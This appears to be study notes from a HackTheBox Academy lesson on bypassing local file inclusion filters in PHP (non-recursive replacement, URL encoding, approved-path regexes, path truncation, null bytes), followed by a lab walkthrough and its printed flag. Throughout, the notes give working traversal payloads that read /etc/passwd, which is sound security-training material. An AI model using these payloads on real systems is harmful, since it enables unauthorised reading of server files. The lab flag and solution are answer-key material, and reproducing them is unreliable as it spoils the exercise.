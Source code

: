 ﻿In the previous section, we saw several types of attacks that we can use for different types of LFI vulnerabilities. In many cases, we may be facing a web application that applies various protections against file inclusion, so our normal LFI payloads would not work. Still, unless the web application is properly secured against malicious LFI user input, we may be able to bypass the protections in place and reach file inclusion.

---

## Non-Recursive Path Traversal Filters

One of the most basic filters against LFI is a search and replace filter, where it simply deletes substrings of (`../`) to avoid path traversals. For example:

```php
$language = str_replace('../', '', $_GET['language']);
```

The above code is supposed to prevent path traversal, and hence renders LFI useless. If we try the LFI payloads we tried in the previous section, we get the following:


![](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist.png)

We see that all`../` substrings were removed, which resulted in a final path being`./languages/etc/passwd`. However, this filter is very insecure, as it is not`recursively removing` the`../` substring, as it runs a single time on the input string and does not apply the filter on the output string. For example, if we use`....//` as our payload, then the filter would remove`../` and the output string would be`../`, which means we may still perform path traversal. Let's try applying this logic to include`/etc/passwd` again:

```
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd.png)

As we can see, the inclusion was successful this time, and we're able to read`/etc/passwd` successfully. The`....//` substring is not the only bypass we can use, as we may use`..././` or`....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g.`....\/`), or adding extra forward slashes (e.g.`....////`)

---

## Encoding

Some web filters may prevent input filters that include certain LFI-related characters, like a dot`.` or a slash`/` used for path traversals. However, some of these filters may be bypassed by URL encoding our input, such that it would no longer include these bad characters, but would still be decoded back to our path traversal string once it reaches the vulnerable function. Core PHP filters on versions 5.3.4 and earlier were specifically vulnerable to this bypass, but even on newer versions we may find custom filters that may be bypassed through URL encoding.

If the target web application did not allow`.` and`/` in our input, we can URL encode`../` into`%2e%2e%2f`, which may bypass the filter. To do so, we can use any online URL encoder utility or use the Burp Suite Decoder tool, as follows: ![burp_url_encode](https://academy.hackthebox.com/storage/modules/23/burp_url_encode.jpg)

**Note:** For this to work we must URL encode all characters, including the dots. Some URL encoders may not encode dots as they are considered to be part of the URL scheme.

Let's try to use this encoded LFI payload against our earlier vulnerable web application that filters`../` strings:

 ```
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
![](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png)

As we can see, we were also able to successfully bypass the filter and use path traversal to read`/etc/passwd`. Furthermore, we may also use Burp Decoder to encode the encoded string once again to have a`double encoded` string, which may also bypass other types of filters.

You may refer to the [Command Injections](https://academy.hackthebox.com/module/details/109) module for more about bypassing various blacklisted characters, as the same techniques may be used with LFI as well.

---

## Approved Paths

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. For example, the web application we have been dealing with may only accept paths that are under the`./languages` directory, as follows:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
 include($_GET['language']);
} else {
 echo 'Illegal path specified!';
}
```

To find the approved path, we can examine the requests sent by the existing forms, and see what path they use for the normal web functionality. Furthermore, we can fuzz web directories under the same path, and try different ones until we get a match. To bypass this, we may use path traversal and start our payload with the approved path, and then use`../` to go back to the root directory and read the file we specify, as follows:

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```
![](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png)

Some web applications may apply this filter along with one of the earlier filters, so we may combine both techniques by starting our payload with the approved path, and then URL encode our payload or use recursive payload.

**Note:** All techniques mentioned so far should work with any LFI vulnerability, regardless of the back-end development language or framework.

---

## Appended Extension

As discussed in the previous section, some web applications append an extension to our input string (e.g.`.php`), to ensure that the file we include is in the expected extension. With modern versions of PHP, we may not be able to bypass this and will be restricted to only reading files in that extension, which may still be useful, as we will see in the next section (e.g. for reading source code).

There are a couple of other techniques we may use, but they are`obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4`. However, it may still be beneficial to mention them, as some web applications may still be running on older servers, and these techniques may be the only bypasses possible.

#### Path Truncation

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be`truncated`, and any characters after the maximum length will be ignored. Furthermore, PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the`/.` would also be truncated, and PHP would call (`/etc/passwd`). PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g.`////etc/passwd` is the same as`/etc/passwd`). Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded (e.g.`/etc/./passwd`).

If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path. Whenever we reach the 4096 character limitation, the appended extension (`.php`) would be truncated, and we would have a path without an appended extension. Finally, it is also important to note that we would also need to`start the path with a non-existing directory` for this technique to work.

An example of such payload would be the following:


```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Of course, we don't have to manually type`./` 2048 times (total of 4096 characters), but we can automate the creation of this string with the following command:


```shell-session
smoothment@htb[/htb]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

We may also increase the count of`../`, as adding more would still land us in the root directory, as explained in the previous section. However, if we use this method, we should calculate the full length of the string to ensure only`.php` gets truncated and not our requested file at the end of the string (`/etc/passwd`). This is why it would be easier to use the first method.

#### Null Bytes

PHP versions before 5.5 were vulnerable to`null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it. This is due to how strings are stored in low-level memory, where strings in memory must use a null byte to indicate the end of the string, as seen in Assembly, C, or C++ languages.

To exploit this vulnerability, we can end our payload with a null byte (e.g.`/etc/passwd%00`), such that the final path passed to`include()` would be (`/etc/passwd%00.php`). This way, even though`.php` is appended to our string, anything after the null byte would be truncated, and so the path used would actually be`/etc/passwd`, leading us to bypass the appended extension.

# Question
---
![Pasted image 20250218142549.png](../../../../IMAGES/Pasted%20image%2020250218142549.png)

Let's check the request:

![Pasted image 20250218142647.png](../../../../IMAGES/Pasted%20image%2020250218142647.png)

We can see the format's changed, let's try some payloads:

```
c
```

![Pasted image 20250218143026.png](../../../../IMAGES/Pasted%20image%2020250218143026.png)

Path is right in this case, if we try moving to another path, we get the following:

![Pasted image 20250218143054.png](../../../../IMAGES/Pasted%20image%2020250218143054.png)

So, we must construct another payload based on the previous one, let's go with the following one:

```
languages//....//....///....//....//etc/passwd 
```

![Pasted image 20250218143205.png](../../../../IMAGES/Pasted%20image%2020250218143205.png)

And it worked!, we were able to read `/etc/passwd`, knowing this, we're able to read our flag:

```
languages//....//....///....//....//flag.txt
```

![Pasted image 20250218143249.png](../../../../IMAGES/Pasted%20image%2020250218143249.png)

Flag is:

```
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
```


